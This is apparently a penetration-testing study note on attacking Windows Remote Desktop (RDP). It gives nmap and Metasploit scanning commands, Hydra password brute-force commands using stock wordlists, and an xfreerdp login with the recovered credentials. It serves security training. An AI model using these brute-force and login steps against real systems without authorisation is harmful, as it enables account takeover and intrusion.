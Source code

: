 # Exploiting RDP
> Remote Desktop Protocol (RPD) is a proprietary GUI remote access protocl developed by Microsoft and it is used to remotely connect to and interact with a Windows system.

RDP Default Port: `3389`
- But it can be configured to run on any other TCP port. Therefore be thorough in your port scanning and enumeration.
- Port 3389 is IANA registered for...
  - Microsoft WBT Server, used for Windows Remote Desktop and Remote Assistance connections (RDP - Remote Desktop Protocol).
  - Also used by Windows Terminal Server (`ms-wbt-server`).

## Contents
- [Intro](#)
- [Exploit Steps](#)
  - [Scan](#)
  - [2. MetaSploit RDP Scanner](#)
  - [3. Brute Force with Hydra](#)
  - [4. RDP Client Access](#)
    - [xfreerdp](#)
    - [Remmina](#)

## Intro
> RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.

- We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system. 
- And, of course, we'd like to grab the `administrator` creds if possible.

## Exploit Steps

### 1. Scan
```
nmap -sS -sV -sC -O -T4 -p- [target ip]
```
- If port `3389` is not listed in the results, look around for `ms-wbt-server` and note what port it's running on (that's RDP).
- How could you verify if RDP is running on port 3333?
  - One way is to connect to the target system using an RDP client on port 3333. You can connect, but you'll not have access without user creds.
  - You could also use the MetaSploit RDP scanner...

### 2. MetaSploit RDP Scanner
```
msfconsole
> search rdp_scanner
> use [that module]
> check and set options (target ip and port)
> run (and it should verify if RDP is running on the target port or not)
```

### 3. Brute Force with [Hydra](../../hydra.md)
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt [target ip] rdp -s 3333
# or
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://[target ip] -s 3333
# or
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://[target ip]:3333
```
- `-s` : service port (if not default)
- Be very careful with your brute-force speed. You could crash the system or DoS it.
  - The `-t` (tasks) options sets the number of connects in parallel (default is 16, for reference)
  - You could set `-t 2` or `-t 3` and see if that plays nicer.  Hydra actually recommends `-t 1` through `-t 4`.
- Once you run hydra you should get some creds to test drive. To do that use...

### 4. RDP Client Access

#### xfreerdp
```
xfreerdp /u:[username] /p:[password] /v:[targetip]:3389
```

#### [Remmina](https://remmina.org/)
- Another RDP client for Linux you could use. 
